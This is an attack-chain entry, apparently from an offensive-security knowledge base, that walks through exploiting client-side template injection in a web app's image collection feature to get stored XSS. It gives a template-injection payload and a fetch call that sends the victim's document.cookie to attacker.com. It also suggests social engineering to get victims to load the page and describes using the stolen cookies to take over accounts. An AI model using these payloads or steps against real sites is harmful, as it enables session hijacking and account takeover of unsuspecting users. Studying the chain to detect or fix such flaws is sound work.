

---
tags:
  - xss
  - stored-xss
  - template-injection
  - client-side
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-Malicious-Template-Expression]]'
  - '[[procedures/Exploiting-Stored-XSS-for-Session-Theft]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:33.857Z'
description: >-
  Exploit a client-side template injection vulnerability in the Image Collection
  feature to inject malicious template expressions, leading to stored XSS that
  steals session cookies and enables account takeover.
skill_level: intermediate
impact_level: high
id: b238c8a5-e013-4760-816b-56790536126f
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Client-Side Template Injection to Stored XSS in Image Collection

Multi-stage attack chain demonstrating a complete attack workflow exploiting client-side template injection in a web application's Image Collection feature to achieve stored XSS and account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools)

### Target Environment

- Web application with Image Collection feature
- Client-side template framework (e.g., Handlebars, Mustache, or similar)
- No specific ports required; standard HTTPS (443)

### Initial Access Requirements

- Valid user account on the target application
- Ability to submit user input to the Image Collection feature (e.g., image descriptions or tags)
- Network access to the web application

## Detailed Attack Procedures

### Step 1: Inject Malicious Template Expression
procedure: [[procedures/Inject-Malicious-Template-Expression]]

**Objective**: Submit user input containing a malicious template expression to the Image Collection feature, which gets stored and embedded in client-side templates without sanitization.

**Instructions**: Access the Image Collection feature in the web application. Locate the input field for user-supplied data, such as image captions or metadata. Craft a payload that exploits the template framework, for example, a JavaScript execution expression like `{{constructor.constructor('alert(document.cookie)')()}}` (adapt based on the specific framework; test with benign payloads like `{{7*'7'}}` first to confirm injection). Submit the form to store the input.

**Expected Output**: The input is accepted and stored without error, appearing in the collection.

**Success Indicators**:
- Input is successfully submitted and visible in the Image Collection.
- No server-side validation errors occur.

### Step 2: Trigger Stored XSS for Session Theft
procedure: [[procedures/Exploiting-Stored-XSS-for-Session-Theft]]

**Objective**: Induce a victim (e.g., another user or admin) to render the page containing the injected template, executing the XSS payload to steal session cookies and enable account takeover.

**Instructions**: Share the link to the Image Collection page with the malicious input (e.g., via social engineering or public visibility). When the victim loads the page, the client-side template engine processes the stored input, evaluating the malicious expression. The payload executes JavaScript to exfiltrate cookies, such as sending them to an attacker-controlled server via `fetch('https://attacker.com/steal?cookie=' + document.cookie)`.

**Expected Output**: JavaScript executes in the victim's browser, transmitting session data to the attacker.

**Success Indicators**:
- Alert or network request confirms execution (test on own account first).
- Attacker receives stolen cookies via their endpoint.
- Use the stolen cookies to impersonate the victim and access their account.

## Attack Chain Summary

### Key Achievements

1. Successful injection of malicious template expression bypassing client-side sanitization.
2. Execution of stored XSS payload during page rendering.
3. Theft of session cookies leading to full account takeover.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
